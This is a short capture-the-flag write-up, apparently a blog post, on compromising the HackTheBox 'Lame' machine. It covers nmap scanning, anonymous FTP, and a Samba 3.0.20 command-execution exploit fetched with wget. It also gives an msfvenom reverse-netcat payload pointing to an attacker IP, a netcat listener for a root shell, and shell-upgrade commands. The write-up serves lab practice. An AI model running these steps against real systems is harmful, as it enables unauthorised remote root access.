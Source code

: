 ```yaml
---
layout: post
title: Lame - HackTheBox
slug: lame-hackthebox
date: '2021-11-07T21:38:18.350Z'
---
```


# Recon
Starting a port scan with nmap:
{% highlight shell %}
IP=10.10.10.3
sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn $IP -oG nmap/initial
{% endhighlight  %}
![nmap-lame]({{ site.baseurl }}/images/lame/1.jpg)

We can scan with nmap scripts for version and vulnerabilities associated with the ports mentioned above:
{% highlight shell %}
sudo nmap -p21,445,139,22,3632 -sCV $IP -oG nmap/targeted
{% endhighlight  %}

# FTP - Port 21
![nmap-lame]({{ site.baseurl }}/images/lame/ftp1.JPG)

We can log in with de anonymous user, but it is empty.

![ftp-anon]({{ site.baseurl }}/images/lame/ftp2.jpg)

We see that the version of the FTP server is vulnerable (searchsploit). Using a python exploit and metasploit we have not been able to access.

![ftp-exploit]({{ site.baseurl }}/images/lame/ftp3.jpg)

# Samba - Port 445

![samba-exploit]({{ site.baseurl }}/images/lame/samba.jpg)


Searching in searchsploit we can see that samba is vulnerable to remote command execution. We are going to look for a Python script to exploit the vuln (according to searchsploit there was only for metasploit, so...) :
{% highlight shell %}
wget https://raw.githubusercontent.com/macha97/exploit-smb-3.0.20/master/exploit-smb-3.0.20.py
{% endhighlight  %}

Next, we will see the script and we will change the payload with msfvenom with our IP address:
{% highlight shell %}
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.11 LPORT=443 -f python
{% endhighlight  %}
As we can see, it is not necessary to change anything else.

In the other hand, we should listen with netcat by 443 port (nc -lvp 443) that it returns a root shell. Searching for flags at this point is trivial.

# BONUS - Spawning a TTY
{% highlight shell %}
which python                     # (python?)
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL_Z
stty raw -echo; fg
ENTER y ENTER
export TERM=xterm
export SHELL=bash
stty rows Y columns X            # (stty -a)
{% endhighlight  %}
